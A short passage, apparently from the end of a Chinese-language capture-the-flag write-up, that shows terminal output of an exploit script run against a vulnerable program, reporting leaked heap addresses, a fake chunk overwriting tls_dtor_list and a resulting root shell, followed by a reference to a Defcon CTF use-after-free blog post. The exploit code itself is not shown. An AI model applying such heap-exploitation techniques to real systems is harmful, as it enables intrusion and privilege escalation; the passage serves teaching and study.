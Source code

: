 ``` bash
Shell-1$./vuln.sh
Shell-2$python exp.py
...
** Leaked heap addresses : [0x889d010] **
** Constructing fake chunk to overwrite tls_dtor_list**
** Successfull tls_dtor_list overwrite gives us shell!!**
*** Connection closed by remote host ***
** Leaked heap addresses : [0x895d010] **
** Constructing fake chunk to overwrite tls_dtor_list**
** Successfull tls_dtor_list overwrite gives us shell!!**
*** Connection closed by remote host ***
id
uid=0(root) gid=1000(bala) groups=0(root),10(wheel),1000(bala) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
exit
** Leaked heap addresses : [0x890c010] **
** Constructing fake chunk to overwrite tls_dtor_list**
** Successfull tls_dtor_list overwrite gives us shell!!**
*** Connection closed by remote host ***
...
$
```

## 参考

1. [Revisiting Defcon CTF Shitsco Use-After-Free Vulnerability – Remote Code Execution](http://v0ids3curity.blogspot.in/2015/02/revisiting-defcon-ctf-shitsco-use-after.html)